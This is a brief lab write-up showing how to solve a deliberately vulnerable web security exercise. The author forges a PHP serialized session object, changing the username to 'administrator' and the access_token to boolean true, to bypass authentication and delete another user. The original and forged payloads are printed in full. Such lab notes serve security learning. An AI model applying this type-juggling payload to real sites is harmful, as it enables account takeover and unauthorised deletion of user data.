



# Modifying serialized data types

## This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login
then /my-account page sent to repeater



### step2

```json
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bdrsqrhm9pmae2nve9sezu0h4ub9g6bn";}
```

```json
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}
```



### step3

use encoded session id



use this session id to delete carlos account and solved the lab
